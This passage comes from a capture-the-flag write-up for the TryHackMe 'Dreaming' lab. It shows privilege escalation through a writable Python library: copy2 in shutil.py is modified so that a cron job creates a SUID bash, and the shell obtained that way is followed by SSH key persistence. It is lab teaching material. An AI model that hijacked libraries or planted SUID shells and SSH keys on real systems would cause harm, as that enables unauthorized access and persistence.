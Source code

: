 We can see that the a cron job run by the user with UID 1002 (morpheus) runs the `/home/morpheus/restore.py` script  after every one minute. Let's read this Python script file. 
```bash
death@dreaming:/tmp$ cat /home/morpheus/restore.py
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
```

Notice that this script uses the `copy2` function in the Shutil module. All we have to do now is to edit this function in the `/usr/lib/python3.8/shutil.py` file we have write access on and when this function will be call by the `/home/morpheus/restore.py` script run by Morpheus, our extra code will be executed. 
```python
def copy2(src, dst, *, follow_symlinks=True):
    """
    <SNIP>
    """
    os.system("cp /usr/bin/bash /home/morpheus/;chmod +s /home/morpheus/bash")
    if os.path.isdir(dst):
        dst = os.path.join(dst, os.path.basename(src))
    copyfile(src, dst, follow_symlinks=follow_symlinks)
    copystat(src, dst, follow_symlinks=follow_symlinks)
    return dst
```

The extra code added to the `copy2` function will create a bash executable with SUID bit set in the `/home/morpheus/` directory. When this cron job will be executed after our modification the extra code will be executed.
```bash
death@dreaming:~$ ls -l /home/morpheus/ 
total 1168
-rwsr-sr-x 1 morpheus morpheus 1183448 Oct 26 10:12 bash
-rw-rw-r-- 1 morpheus morpheus      22 Jul 28  2023 kingdom
-rw-rw---- 1 morpheus morpheus      28 Jul 28  2023 morpheus_flag.txt
-rw-rw-r-- 1 morpheus morpheus     180 Aug  7  2023 restore.py
```

We can use this bash executable with morpheus SUID bit to obtain a shell as morpheus and read the third flag on the target.
```bash
death@dreaming:~$ cd /home/morpheus/
death@dreaming:/home/morpheus$ ./bash  -p
bash-5.0$ whoami
morpheus
bash-5.0$ ls
bash  kingdom  morpheus_flag.txt  restore.py
```

To obtain a stable shell we can create Morpheus's SSH `.ssh/authorized_keys` file and add the public key of a private key we control.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Dreaming/Misc File]
└─$ ssh-keygen -t ed25519 
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/pentester/.ssh/id_ed25519): ./id_ed25519
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ./id_ed25519
Your public key has been saved in ./id_ed25519.pub
<SNIP>

┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Dreaming/Misc File]
```